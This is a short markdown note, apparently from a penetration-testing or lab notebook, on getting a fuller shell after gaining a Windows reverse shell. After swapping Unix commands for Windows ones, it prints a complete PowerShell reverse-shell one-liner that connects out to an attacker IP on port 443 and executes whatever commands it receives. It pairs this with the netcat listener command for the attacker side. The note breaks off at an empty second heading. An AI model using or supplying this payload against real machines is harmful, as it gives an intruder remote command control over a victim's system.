 # Fixing Limited Windows Reverse Shell Commands

## 📌 Issue
After obtaining a Windows reverse shell, you may notice:
- `whoami` works, but `ls`, `cd`, and `id` do not.
- Commands do not behave interactively.

- Use alternatives:
  -   ls -> dir
  -   id -> whoami /user
  -   pwd -> echo %cd%


## 🛠️ Solutions

### ✅ 1. Use a PowerShell Reverse Shell
PowerShell provides a fully interactive shell.

On the Target (Windows), execute:
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.227',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
On the Attacker Machine (Kali/Linux), start a listener:

```
nc -lvnp 443
```

### ✅ 2. cmd.exe /K
